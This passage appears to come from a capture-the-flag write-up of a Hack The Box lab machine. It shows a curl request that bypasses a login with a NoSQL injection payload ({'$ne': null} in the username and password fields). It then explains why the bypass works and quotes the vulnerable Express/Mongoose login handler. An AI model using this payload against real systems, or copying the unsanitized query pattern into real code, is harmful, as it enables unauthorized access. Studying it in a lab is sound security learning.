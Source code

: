```shell
curl "http://dev.stocker.htb/login" -H "Content-Type: application/json" -d '{"username": {"$ne": null}, "password": {"$ne": null} }'

* Connected to dev.stocker.htb (10.10.11.196) port 80 (#0)
> POST /login HTTP/1.1
> Host: dev.stocker.htb
> Content-Type: application/json
> ...
>
< HTTP/1.1 302 Found
< Server: nginx/1.18.0 (Ubuntu)
< X-Powered-By: Express
< Location: /stock
< Set-Cookie: connect.sid=s%3AqGMRmpDVrXcgo8u6P8cvnkxXulrDf2xh.EJzRuuoN6u0mVuOXo449k1SVf%2FBDed2jDyB4Sq3p1Kk; Path=/; HttpOnly
< ...
* Connection #0 to host dev.stocker.htb left intact
Found. Redirecting to /stock
```

#### But why this occurs? 

- Well, the server **doesn't restrict the Content-Type** of the request in the first place. This allow us to send JSON data in it's body.
- Secondly, the server **understands the JSON** sent and uses it to authenticate the user. 
- Finally, the data is **not sanitized at all**, allowing us to manipulate the query expression.


Later on, we can access the source of the server in `/var/www/dev/index.js`. Analysing the code, we discover the snippet of authentication: 

```js 
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

// ...

app.post("/login", async (req, res) => {
  const { username, password } = req.body;
  
  if (!username || !password) return res.redirect("/login?error=login-error");

  const user = await mongoose.model("User").findOne({ username, password });

  if (!user) return res.redirect("/login?error=login-error");

  req.session.user = user.id;

  console.log(req.session);

  return res.redirect("/stock");
});
```
